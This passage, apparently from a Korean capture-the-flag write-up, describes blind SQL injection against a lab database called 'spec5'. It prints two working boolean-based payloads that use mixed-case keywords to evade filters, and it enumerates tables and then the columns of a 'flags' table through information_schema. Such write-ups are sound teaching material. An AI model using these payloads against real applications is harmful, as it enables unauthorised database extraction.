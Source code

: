 > 데이터베이스 이름 **spec5**

- 추출한 데이터베이스 이름을 기반으로, `information_schema.tables`를 이용해 내부 테이블 목록을 확인해볼 것 이다.

```html
33333%' Or if(ascii(substr((select table_name from infOrmation_schema.tables where table_schema='spec5' limit {j},1),{i},1))={ascii},1,0) and '1%'='1"
```

![파이썬 활용 테이블 추출](./screenshots/python_table.png)

- 위와 같은 방식으로 파이썬 코드를 약간 수정하여, 테이블 목록을 추출하는 스크립트를 작성하였다.

![파이썬 활용 테이블 추출 완료](./screenshots/python_table_success.png)

- 확인된 테이블 이름
   - 1. comments
   - 2. flags
   - 3. posts

- 이제 `flags` 테이블의 컬럼을 확인하기 위해, `information_schema.columns`를 활용한 스크립트를 작성할 것이다.

```html
33333%' Or if(ascii(substr((select column_name from infOrmation_schema.columns where table_schema='spec5' and table_name='flags' limit {j},1),{i},1))={ascii},1,0) and '1%'='1
```
